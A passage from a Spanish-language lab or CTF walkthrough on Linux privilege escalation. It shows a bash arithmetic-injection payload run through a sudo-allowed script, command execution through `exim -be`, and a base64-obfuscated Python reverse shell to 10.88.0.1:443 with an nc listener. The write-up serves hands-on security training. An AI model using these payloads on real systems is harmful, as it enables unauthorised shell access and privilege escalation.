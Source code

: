 Podemos ejecutar el `script.sh` que descubrimos anteriormente, por lo que ahora intentamos elevar nuestro privilegio usando `sudo`

~~~ bash
sudo -u maci ./script.sh
~~~

`Payload`

~~~ bash
a[$(/bin/sh >&2)]+42
~~~

![[Pasted image 20241105183521.png]]

Para volver a una `bash`, simplemente escribimos `bash`

## Sudo `exim`

Listaremos los privilegios `sudo` que tenemos asignados para el usuario actual

~~~ bash
sudo -l
~~~

![[Pasted image 20241105183719.png]]

Podemos ejecutar `exim` como el usuario `pepe`, por lo que podemos intentar ejecutar `bash` como este usuario, para ejecutar algún comando a través de `exim`, podemos hacerlo mediante el siguiente comando

~~~ bash
exim -be '${run{/usr/bin/id}}'
~~~

![[Pasted image 20241105184456.png]]

Intentamos migrar al usuario `pepe` con `sudo`

~~~ bash
echo '#!/bin/bash' > /tmp/privesc && echo "echo 'cHl0aG9uMyAtYyAnaW1wb3J0IHB0eTtpbXBvcnQgc29ja2V0LG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjg4LjAuMSIsNDQzKSk7b3MuZHVwMihzLmZpbGVubygpLDApO29zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7cHR5LnNwYXduKCIvYmluL2Jhc2giKSc=' | base64 -d | bash" >> /tmp/privesc
~~~ 

![[Pasted image 20241105203456.png]]

Antes de lanzar la `shell` le damos permisos de ejecución al `script`

~~~ bash
chmod +x /tmp/privesc
~~~

## Shell

Nos ponemos en escucha con `nc` por el puerto `443` para recibir la `shell`
